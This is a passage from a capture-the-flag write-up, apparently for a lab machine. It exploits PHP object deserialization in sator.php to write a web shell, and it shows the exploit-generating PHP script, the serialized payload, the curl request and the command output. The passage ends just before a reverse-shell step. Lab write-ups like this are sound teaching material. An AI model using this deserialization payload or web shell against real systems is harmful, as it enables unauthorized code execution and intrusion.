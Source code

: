 ### Create Serialized Object

To create a serialized PHP object, I'll use PHP. This script will create
the object with the right variables, and then print the serialized
version:



    <?php

    class DatabaseExport {

        public $user_file = "0xdf.php";
        public $data = '<?php system($_REQUEST["cmd"]); ?>';

    }

    $sploit = new DatabaseExport;
    echo serialize($sploit);
    ?>



Running it prints the serialized object:



    root@kali# php exp.php 
    O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}



### Write Webshell

Now I'll call `sator.php` passing this object. I can have `curl`
url-encode GET parameters by passing in `-G` and `--data-urlencode`:



    root@kali# curl -G http://10.10.10.223/sator.php --data-urlencode 'arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"0xdf.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}' --proxy 127.0.0.1:8080
    [+] Grabbing users from text file <br>
    [] Database updated <br>[] Database updated <br>



I'll notice that "Database updated" prints twice. That's once for the
`DatabaseExport` object stored in `$app`, and once for my object.

Checking for the webshell, it's there:



    root@kali# curl http://10.10.10.223/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell

To go from webshell to shell, I'll trigger the webshell with the
following reverse shell:
